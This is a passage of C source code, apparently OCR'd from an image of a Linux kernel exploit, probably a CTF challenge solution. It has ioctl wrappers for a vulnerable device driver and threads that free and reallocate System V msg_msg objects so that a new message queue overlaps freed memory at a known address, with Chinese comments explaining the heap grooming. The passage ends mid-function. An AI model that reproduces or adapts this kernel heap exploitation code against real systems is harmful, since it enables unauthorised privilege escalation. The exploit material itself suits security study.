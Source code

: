 ```c
void edit(unsigned int index, size_t *content)
{
    request t = {
        .index = index,
        .content = content,
    };
    ioctl(dev_fd, EDIT, &t);
}

void delete(int index)
{
    request t = {
        .index = index,
    };
    ioctl(dev_fd, DELETE, &t);
}

struct msg_buf
{
    size_t mtype;
    size_t buf[1];
};

void *write_thread1()
{
    /* 释放整条 Q1 */
    // 两次申请的，分两次释放，遵循FIFO
    int res = 0;

    res = msgrcv(msg_id[1], buffer, 0x40 - 0x30, 1, 0);
    if (res != 0x40 - 0x30)
    {
        err_exit("msg_rcv Q1");
    }

    res = msgrcv(msg_id[1], buffer, 0x1000 - 0x30 + 0x1000 - 8, 1, 0);
    if (res != 0x1000 - 0x30 + 0x1000 - 8)
    {
        err_exit("msg_rcv Q1 msg1");
    }

    /* 申请新的 msg_msg 即Q2, 其msg_msg为Q1的msg_seg, msg_seg为Q1的msg_msg且地址已知 */
    info("Allocating Q2...");
    struct msg_buf *msg = (struct msg_buf *)((size_t)pwn_addr + 0x30);
    msg->mtype = 1;
    msg_id[2] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
    if(msgsnd(msg_id[2], msg, 0x1000 - 0x30 + 0x1000 - 8, 0) < 0){
        err_exit("msg snd 2");
    };
    return NULL;
}

void *write_thread2()
{
    int res;
    char buf[1];

    /* 等待 msg_msg -> msg_seg链创建好 */
    read(pipe_fd1[0], buf, 1);

    /* 申请一个临时msg_msg, 使其占用释放的msg_msg Q1的0x40的obj */
    int t_msg = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
    struct msg_buf *msg = (struct msg_buf *)buffer;
```
